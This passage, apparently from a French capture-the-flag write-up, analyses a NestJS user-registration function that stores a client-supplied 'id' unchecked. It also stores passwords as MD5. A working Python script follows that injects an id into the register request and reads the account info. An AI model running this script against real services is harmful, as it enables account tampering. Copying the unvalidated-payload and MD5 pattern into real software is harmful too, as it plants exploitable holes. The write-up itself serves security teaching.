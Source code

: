 Ainsi, en contrôlant l'id de l'utilisateur, on peut interagir avec la db.

On peut se concentrer sur la fonction qui enregistre un nouvel utilisateur :
```js
async create(payload: CreateUserDTO) {
   try {
     if (await this.usersService.findOne(payload.pseudo))
       throw new ForbiddenException('Pseudo already exists');
     payload.password = getReduceMd5(payload.password);
     return this.usersService.create(payload);
   } catch (error) {
     throw new ForbiddenException(error.message);
   }
 }
```

Il y a une vérification sur l'unicité du pseudo avec la ligne:  
``await this.usersService.findOne(payload.pseudo)`` .  
Puis le mot de passe est passé en md5.
Enfin, la fonction ajoute à ``usersService`` **payload**.

On a ici une première vulnérabilité !
Si on spécifie un *id* dans la requête de register, celui-ci est conservé.

```python
import requests
import random

class exploit:
	def __init__(self,url,session):
		self.url = url
		self.sess = session

	def login(self,user,pwd):
		data = {'pseudo':user,'password':pwd}
		r = self.sess.post('%s/auth/login'%self.url,json=data).json()
		return r['access_token']

	def register(self,user,pwd,id_=''):
		data = {'pseudo':user,'password':pwd}
		if id_:
			data['id']=id_
		r = self.sess.post('%s/auth/register'%self.url,json=data).json()
		if ("statusCode" in r):
			print(r['message'])
			exit()
		return r['access_token']

	def info(self,token):
		return self.sess.get('%s/infos'%self.url,headers={"Authorization":"Bearer %s"%(token)}).json()

exp = exploit(
	url = 'http://13.37.17.31:51665',
	session = requests.session()
)
token = exp.register(
	user = 'vozec',
	pwd  = 'vozec',
	id_  = 'injected_id',
)
print(exp.info(token))
```


[//]: <> (Wrote By Vozec 06/05/2023)